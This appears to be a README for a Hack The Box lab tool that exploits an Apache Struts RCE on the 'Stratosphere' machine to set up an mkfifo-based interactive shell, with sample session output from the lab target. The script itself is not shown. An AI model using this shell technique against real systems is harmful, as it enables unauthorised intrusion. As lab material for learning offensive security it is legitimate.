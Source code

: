## Challenge

[Stratosphere](https://www.hackthebox.eu/home/machines/profile/129) from Hackthebox.eu

## Description

Website on Stratosphere has RCE via Apache Struts. I'll take advantage of `mkfifo` to create a full tty shell using this script.

## Reference

Originally published in blog posts: https://0xdf.gitlab.io/2018/09/01/htb-stratosphere.html#building-a-shell

Inspiration from https://www.youtube.com/watch?v=k6ri-LFWEj4

## Usage

```
root@kali:~/hackthebox/stratosphere-10.10.10.64# python3 ./stratosphere_shell.py
[*] Session ID: 17370
[*] Setting up fifo shell on target
[*] Setting up read thread
stratosphere> pwd
/var/lib/tomcat8

stratosphere>

ls
conf
db_connect
lib
logs
policy
webapps
work

stratosphere> cd ..
stratosphere> pwd
/var/lib

stratosphere> upgrade
tomcat8@stratosphere:/var/lib$
pwd
pwd
/var/lib
tomcat8@stratosphere:/var/lib$
```
